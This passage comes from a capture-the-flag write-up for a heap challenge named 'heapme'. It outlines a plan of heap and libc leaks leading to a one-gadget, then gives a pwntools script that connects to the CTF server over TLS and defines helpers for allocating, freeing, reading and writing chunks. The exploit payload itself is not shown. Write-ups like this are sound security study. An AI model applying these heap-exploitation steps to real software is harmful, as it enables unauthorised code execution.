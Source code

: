 We're gonna get our heap leak, then "clear" every disk, get the libC leak,
clear again, and finally run the exploit. Our gadget requires `rsp + 0x70` to be
`null`. With a little stack inspection we quickly understand that an array of
pointers (that points to the disks) jams our stack. The trick here is to never
allocate anything in the first indexes. If no pointers is ever allocated, then
it remains NULL. Let’s go!

Python script:

```python
#!/usr/bin/env python2
# -*- coding: utf-8 -*-

from pwn import *
import struct
import sys
import ssl


exe = ELF("heapme")
hostname = "ctf.hexpresso.fr"
context = ssl.create_default_context(ssl.Purpose.CLIENT_AUTH)
context.load_cert_chain(certfile="client.pem")
context.load_verify_locations(cafile="server.crt")
context.verify_mode = ssl.CERT_REQUIRED
sock = socket.create_connection((hostname, 4242))
ssock = context.wrap_socket(sock, server_hostname=hostname)


def createDisk(size, index):
    index = str(index)
    size = str(size)
    io.recvuntil('Command: ')
    io.sendline('0')
    io.recvuntil('Size: ')
    io.sendline(size)
    io.recvuntil('Index: ')
    io.sendline(index)


def deleteDisk(index):
    index = str(index)
    io.recvuntil('Command: ')
    io.sendline('3')
    io.recvuntil('Index: ')
    io.sendline(index)


def readDisk(index):
    index = str(index)
    io.recvuntil('Command: ')
    io.sendline('1')
    io.recvuntil('Index: ')
    io.sendline(index)
    io.recvuntil('Data: ')
    disk = io.recvuntil('\n')
    return (disk)


def writeDisk(index, data):
    index = str(index)
    io.recvuntil('Command: ')
    io.sendline('2')
    io.recvuntil('Index: ')
    io.sendline(index)
```